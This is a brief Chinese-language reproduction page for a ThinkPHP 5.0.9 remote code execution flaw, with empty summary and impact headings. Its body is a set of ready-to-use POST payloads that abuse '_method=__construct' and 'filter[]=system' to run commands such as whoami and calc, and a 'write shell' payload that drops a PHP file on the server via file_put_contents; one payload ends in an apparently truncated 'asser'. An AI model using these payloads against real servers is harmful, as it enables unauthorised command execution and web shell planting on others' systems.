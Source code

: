 Thinkphp 5.0.9
==============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

> www.0-sec.org/?s=index/index

    POST

    s=whoami&_method=__construct&method=POST&filter[]=system
    aaaa=whoami&_method=__construct&method=GET&filter[]=system
    _method=__construct&method=GET&filter[]=system&get[]=whoami
    c=system&f=calc&_method=filter

> 写shell

    POST

    s=file_put_contents('zerosec.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=asser
